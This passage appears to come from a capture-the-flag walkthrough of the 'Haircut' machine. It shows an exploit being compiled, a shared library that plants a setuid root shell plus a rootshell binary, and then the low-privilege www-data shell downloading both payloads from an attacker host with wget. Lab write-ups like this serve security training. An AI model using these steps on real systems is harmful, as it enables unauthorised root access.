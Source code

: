 Next, let's compile them as per the exploit script:

```
└─$ gcc -fPIC -shared -ldl -o libhax.so libhax.c                                                              1 ⨯
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
                                         
└─$ gcc -o rootshell rootshell.c  
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]

```

There are no errors, but we do get a number of warnings, which we can safely ignore in this scenario.

Next, transfer the compiled files to the target system in /tmp:

```
www-data@haircut:/$ cd /tmp
cd /tmp
www-data@haircut:/tmp$ ls
ls
systemd-private-7555ad73ab604aacbffed6ab62a73a29-systemd-timesyncd.service-0wjak6
vmware-root
www-data@haircut:/tmp$ wget 10.10.14.7/libhax.so
wget 10.10.14.7/libhax.so
--2021-11-17 13:46:29--  http://10.10.14.7/libhax.so
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15552 (15K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so           100%[===================>]  15.19K  --.-KB/s    in 0.02s   

2021-11-17 13:46:29 (966 KB/s) - 'libhax.so' saved [15552/15552]

www-data@haircut:/tmp$ wget 10.10.14.7/rootshell
wget 10.10.14.7/rootshell
--2021-11-17 13:46:44--  http://10.10.14.7/rootshell
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
```